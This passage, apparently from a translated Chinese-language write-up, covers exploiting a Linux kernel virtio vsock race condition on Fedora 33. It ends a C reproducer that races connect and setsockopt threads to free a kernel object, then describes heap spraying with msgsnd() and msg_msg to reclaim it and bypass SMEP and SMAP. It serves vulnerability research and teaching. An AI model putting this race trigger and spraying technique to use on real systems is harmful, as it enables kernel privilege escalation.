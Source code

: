             ret = pthread_create(&th[0], NULL, th_connect, &tmo1);
            if (ret != 0)
                err_exit("[-] pthread_create #0");

            ret = pthread_create(&th[1], NULL, th_setsockopt, &tmo2);
            if (ret != 0)
                err_exit("[-] pthread_create #1");

            ret = pthread_join(th[0], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #0");

            ret = pthread_join(th[1], NULL);
            if (ret != 0)
                err_exit("[-] pthread_join #1");

            if (tfail) {
                printf("[-] some thread got troubles\n");
                exit(EXIT_FAILURE);
            }
        }

        ret = close(vsock);
        if (ret)
            perror("[-] close");

        printf("[+] now see your warnings in the kernel log\n");
        return 0;
    }

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
這裡的size值取自`clock_gettime()`返回的納秒數，每次都可能不同。原始的syzkaller不會這麼處理，因為在syzkaller生成 fuzzing輸入時，syscall參數的值被確定，執行時不會改變。

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
四字節的力量
------------

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
這裡我選擇Fedora 33 Server作為研究目標，內核版本為5.10.11-200.fc33.x86_64，並決心繞過SMEP和SMAP。

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
第一步，我開始研究穩定的堆噴射，該漏洞利用執行用戶空間的活動，使內核在釋放的virtio_vsock_sock的位置分配另一個64字節的對象。經過幾次實驗性嘗試後，確認釋放的virtio_vsock_sock被覆蓋，說明堆噴射是可行的。最終我找到了msgsnd() syscall。它在內核空間中創建了struct msg_msg，見pahole輸出：

</div>
    struct msg_msg {
        struct list_head           m_list;               /*     0    16 */
        long int                   m_type;               /*    16     8 */
        size_t                     m_ts;                 /*    24     8 */
        struct msg_msgseg *        next;                 /*    32     8 */
        void *                     security;             /*    40     8 */
